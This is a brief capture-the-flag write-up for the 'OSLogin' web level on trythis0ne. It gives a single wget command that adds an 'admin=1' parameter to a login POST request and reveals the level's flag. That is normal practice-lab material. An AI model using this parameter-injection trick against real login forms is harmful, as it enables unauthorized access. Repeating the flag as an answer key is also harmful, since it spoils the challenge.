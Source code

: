 # trythis0ne OSLogin Solution

in this level i need in the HTTP post request to send also admin=1, so, let's use wget in wsl

```
 wget --post-data="user=admin&pass=bla&admin=1&submit=send" http://trythis0ne.com/levels/levels/web-challanges/OSLogin/index.php -O OSLogin.php 
```
and then `cat OSLogin.php`, the password is in the file

**Flag:** ***`WeLoveCola`***
